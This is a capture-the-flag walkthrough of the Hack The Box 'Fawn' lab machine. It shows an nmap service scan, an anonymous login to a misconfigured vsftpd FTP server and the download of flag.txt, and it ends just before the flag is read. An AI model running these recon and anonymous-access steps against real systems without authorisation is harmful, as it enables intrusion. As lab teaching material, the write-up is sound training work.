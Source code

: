 ```yaml
---
title: "Hack The Box - Fawn"
date: 2022-10-11T22:13:07+05:30
draft: false
description:  " Fawn from HackTheBox is an retired machine which is vulnerable to security Misconfiguration FTP , which can be easily exploited with help of Basic Recon " 
hideToc: false            
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- FTP
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/fawn/1.png
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Fawn Machine.


## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Fawn</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 21 ware open. while trying to connect with default password of anonymous user FTP ware get logged.

## Recon

lets start with initial default scan (-sC) 

port 21 FTP has opened and the version of ftp server is   vsftpd 3.0.3. File Transfer Protocol (FTP) is a standard communication protocol used to transfer computer files from a server to a client on a computer network. FTP is built on a client–server model architecture using separate control and data connections between the client and the server. FTP users may authenticate themselves with a clear-text sign-in protocol, generally in the form of a username and password. For secure transmission that protects the username and password and encrypts the content, FTP is often secured
with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).

 if the server is configured insecurely. allows anonymous login then we can able to login username and password as a anonymous. 



```bash
atom@atom-VirtualBox:~/htb/fawn$ nmap -sC -sV 10.129.1.14 -o initialscan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-11 19:57 IST
Nmap scan report for 10.129.1.14
Host is up (0.29s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.32
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 592.59 seconds
```

The nmap scan shows that the server allows anonymous login allowed. lets try to login with default credentials.

```bash
atom@atom-VirtualBox:~/htb/fawn$ ftp 10.129.1.14
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:atom): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

we have successfully logged into FTP. let’s dig for any sensitive files, 

```bash
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

we have found flag file o ftp home directory, GET command is used to download  target file 

```bash
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (651.0416 kB/s)
ftp>
```
``` cat ``` command is used to viw the content.